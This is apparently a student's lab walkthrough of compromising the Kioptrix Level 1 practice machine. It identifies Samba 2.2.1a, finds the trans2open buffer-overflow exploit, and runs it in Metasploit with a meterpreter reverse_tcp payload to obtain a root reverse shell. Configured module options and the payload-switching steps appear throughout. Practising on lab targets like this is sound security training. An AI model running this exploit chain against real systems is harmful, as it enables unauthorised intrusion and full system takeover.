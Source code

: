 **Exploit SMB**

**Exploit kioptrix level 1**

ATTACKING SMB<br/>
<br/>
-------------------------------------------------------<br/>
From Enumeration<br/>
<br/>
port 139 (SMB)<br/>
139/tcp  open netbios-ssn Samba smbd (workgroup: MYGROUP)<br/>
Unix (Samba 2.2.1a)<br/>
<br/>
Google &gt; Samba 2.2.1a exploit<br/>
exploit DB<br/>
https://www.exploit-db.com/exploits/10<br/>
https://www.exploit-db.com/exploits/7<br/>
<br/>
rapid 7 (metasploit)<br/>
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/<br/>
NOTE<br/>
Description<br/>
<br/>
This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they<b>apparently do not allow anonymous access to IPC</b><br/>
WE tested and DID have anon access to IPC. CHECK!<br/>
<br/>
<br/>
---------------------------------------------------------------------------------<br/>
<br/>
Victim - 192.168.247.129<br/>
attacker - 192.168.247.128<br/>
<br/>
<br/>
<br/>
SEARCHSPLOIT &lt;query&gt;<br/>
<br/>
searchspolit samba 2.2<br/>
<br/>
<img height="250" src="image.png" width="594"/><br/>
<br/>
Probable a 'trans2open' attack<br/>
<br/>
BOOT UP METASPLOIT<br/>
<br/>
search for 'trans2open' inside metasploit &gt;&gt; during enum a rapid 7 link was identified.<br/>
<br/>
<img height="150" src="image 2.png" width="498"/><br/>
<br/>
During enum it was identifed the system was running redhat &gt; thus linux so option 1 for linux x86<br/>
<br/>
view options<br/>
<br/>
set RHOSTS &lt;victim IP&gt;<br/>
<br/>
check IP was set<br/>
<br/>
msf6 &gt; use 1<br/>
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp<br/>
msf6 exploit(linux/samba/trans2open) &gt; options<br/>
<br/>
Module options (exploit/linux/samba/trans2open):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 RHOSTS          yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi<br/>
                   t<br/>
 RPORT  139       yes    The target port (TCP)<br/>
<br/>
<br/>
Payload options (linux/x86/meterpreter/reverse_tcp):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 LHOST 192.168.247.128 yes    The listen address (an interface may be specified)<br/>
 LPORT 4444       yes    The listen port<br/>
<br/>
<br/>
Exploit target:<br/>
<br/>
 Id Name<br/>
 -- ----<br/>
 0  Samba 2.2.x - Bruteforce<br/>
<br/>
<br/>
msf6 exploit(linux/samba/trans2open) &gt; set RHOSTS 192.168.247.129<br/>
RHOSTS =&gt; 192.168.247.129<br/>
msf6 exploit(linux/samba/trans2open) &gt; options<br/>
<br/>
Module options (exploit/linux/samba/trans2open):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 RHOSTS 192.168.247.129 yes    The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi<br/>
                   t<br/>
 RPORT  139       yes    The target port (TCP)<br/>
<br/>
<br/>
Payload options (linux/x86/meterpreter/reverse_tcp):<br/>
<br/>
 Name  Current Setting Required Description<br/>
 ----  --------------- -------- -----------<br/>
 LHOST 192.168.247.128 yes    The listen address (an interface may be specified)<br/>
 LPORT 4444       yes    The listen port<br/>
<br/>
<br/>
Exploit target:<br/>
<br/>
 Id Name<br/>
 -- ----<br/>
 0  Samba 2.2.x - Bruteforce<br/>
<br/>
<br/>
<br/>
NOTE &gt;&gt;&gt; Default meterpreter ports will prob get picked up...<br/>
<br/>
<br/>
Run or exploit<br/>
<br/>
<img src="image 3.png"/><br/>
<br/>
Sessions dieing &gt; time to cancel and check options<br/>
<br/>
<br/>
Second time checking options after payload did not work meterpreter offeres payload options<br/>
<br/>
<img height="250" src="image 4.png" width="602"/><br/>
<br/>
Current paylaod is staged &gt;&gt;&gt; see the ///<br/>
<br/>
<img height="150" src="image 5.png" width="612"/><br/>
<br/>
change payload to non staged &gt; check with options<br/>
<br/>
exploit!<br/>
<br/>
<img height="400" src="image 6.png" width="693"/><br/>
<br/>
Reverese shell with root access!!!!<br/>
<br/>
<br/>
